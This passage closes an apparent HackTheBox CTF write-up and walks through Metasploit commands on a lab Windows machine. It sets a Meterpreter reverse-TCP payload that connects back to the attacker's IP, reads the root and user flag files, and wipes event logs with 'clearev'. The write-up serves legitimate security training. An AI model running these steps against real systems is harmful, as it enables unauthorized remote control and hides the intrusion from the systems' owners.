 
`show options`


As of this writing, I am still pretty green when it comes to the Windows command line. To circumvent this issue, let's make sure our payload is Meterpreter.


`set PAYLOAD windows/x64/meterpreter/reverse_tcp`


Make sure your Meterpreter IP is set to your HTB VPN IP


* `set LHOST 10.10.14.10`
* `set RHOST 10.10.10.40`
* `run`

<br>
![A13](https://i.imgur.com/0u72HoI.png)
<br>

Once again, it is just really cool to know that you've used an NSA cyberweapon!

* `getuid`


getuid tells us we are the boss of this system, and can go ahead and grab whatever flags we wish.


* `cd /Users/Administrator/Desktop`
* `ls`
* `cat root.txt.txt`

<br>
![A14](https://i.imgur.com/MvYcrvu.png)
<br>

* `ls /Users`


`haris` appears to be the name of our flag-holding user.


* `cd /Users/haris/Desktop`
* `ls`
* `cat user.txt.txt`

<br>
![A15](https://i.imgur.com/5rQZySt.png)
<br>

Now, all that is left to do is clean up using the built-in meterpreter methods.

* `clearev`


Thanks to HackTheBox for making such an approachable and timely CTF!


<br>
[Main Page](../index.html) \| [Blog](https://github.com/berzerk0/GitPage/wiki/Post-Listing) \| [CTF Writeups](../CTF-Writeups/CTF-index.html) \| [How-To Guides](../How-To-Guides/HowTo-index.html) <br>
